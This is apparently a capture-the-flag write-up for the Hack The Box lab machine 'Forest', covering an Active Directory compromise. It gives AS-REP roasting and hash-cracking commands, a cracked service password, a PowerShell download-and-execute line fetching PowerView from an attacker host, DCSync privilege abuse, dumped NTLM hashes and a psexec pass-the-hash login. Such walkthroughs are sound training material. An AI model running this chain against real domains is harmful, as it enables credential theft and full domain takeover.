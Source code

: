Name & IP Address of Machine:
> FOREST : `10.10.10.161`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] rpc,samba, ldap,ad.



## FootHold
- Enumerating rpcclient to enumerate users on machine.
    ```bash
    rpcclient -U '' -N htb.local -c 'enumdomusers; exit' > rpcclient.out
    cat rpcclient.out | cut -d '[' -f 2 | cut -d ']' -f 1 | sed -n '26,32p' > users.txt```
- Run GetNPUsers.py to get tgt ticket if any of these user has pre-auth set for kerberos.
   ```bash
    GetNPUsers.py -usersfile users.txt htb.local/
   ```
- Run hashcat to crack the hash.
  ```bash
    hashcat -m 18200 hash /opt/rockyou.txt
  ```
  `svc-alfresco:s3rvice`
- Log on to the box with win-rm
- Download sharphound and run bloodhound. or Run bloodhound-python from your attacker machine.
  ```bash
    bloodhound-python -u svc-alfresco@htb.local -p s3rvice -c all -ns 10.10.10.161 -d htb.local --zip
  ```
- Found out that svc-alfresco have permission:
  `The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL. With write access to the target object's DACL, you can grant yourself any privilege you want on the object.`
- Create a new user or grant yourself dcsync permission 


## Lateral Movement

## Privilege Escalation

```bash
net user user-name password /add /domain
net group "Exchange Windows Permissions" /add user-name
$pass = ConvertTo-SecureString 'password' -AsPlainText -Force
# New-LocalUser "rahul" -Password $pass -FullName "Rahul Raj"
$cred = New-Object System.Management.Automation.PSCredential('HTB\user-name',$pass)
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.28:8000/PowerView.ps1")
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -Rights DCSync -PrincipalIdentity user-name

```

```bash
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::                                                 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                   
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                                                  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::

```

```psexec.py
psexec.py -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```


<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->